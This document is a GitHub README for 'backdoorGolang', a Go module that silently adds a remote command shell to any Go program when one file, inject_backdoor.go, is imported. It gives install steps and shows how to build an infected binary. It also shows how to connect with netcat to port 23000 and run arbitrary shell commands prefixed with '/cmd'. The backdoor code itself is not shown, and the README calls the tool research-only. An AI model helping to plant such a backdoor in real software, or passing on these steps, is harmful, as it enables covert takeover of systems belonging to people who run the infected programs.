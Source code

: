 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Platform)

`/!\` Work in progress, not a stable release `/!\`

## Main goal

This code is for research purposes only.

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:

`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

"A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible)."

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :

```bash
(sudo) pacman -S community/go
```

From Debian :

```bash
(sudo) apt-get install golang-go
```

From SUSE :

```bash
(sudo) zypper install go1.16
```

From CentOS 7/8 and RedHat 7/8:

```
See Golang SDK link above.
```

## Installation

```bash
go get github.com/guimagalhaes/backdoorGolang@v0.2.2
```

## Clone the project
To do the following experiments, clone the project:

```
mkdir $GOPATH/src/github.com/guimagalhaes/
cd $GOPATH/src/github.com/guimagalhaes/
git clone github.com/guimagalhaes/backdoorGolang
```

## Run test example
Go to `$GOPATH/src/github.com/guimagalhaes/backdoorGolang/tests/simple_example` folder, remove the inject_backdoor.go source file and build it:

```
rm inject_backdoor.go
go build
```

Execute the binary './simple_example' and see that only a simple HTTP server is available:

`curl http://localhost:2020/hello`

Restore the inject_backdoor.go file and build it again:

```
git checkout inject_backdoor.go
go build
```

Execute the new binary ./simple_example and see that besides the simple HTTP server, the backdoor is now injected to the binary.
Note the inject_backdoor.go file is the only file that must be injected to a Golang source code to inject the backdoor to the software.

Follow the next session to see how to test the infected version of the binary.

### Connect to the infected binary

The backdoor uses the 'localhost:23000' address hardcoded for now. The plan is to have network interface detection and auto selection of available network port range.
Use netcat:

```bash
netcat localhost 23000
```

Then execute a sequence of shell commands using '/cmd ' as prefix:

```
/cmd ls -l
/cmd ss -natp
/cmd netstat -natp
/cmd ps aux
...
```

To exit the netcat session:

```
/quit
<enter>
<enter>
```
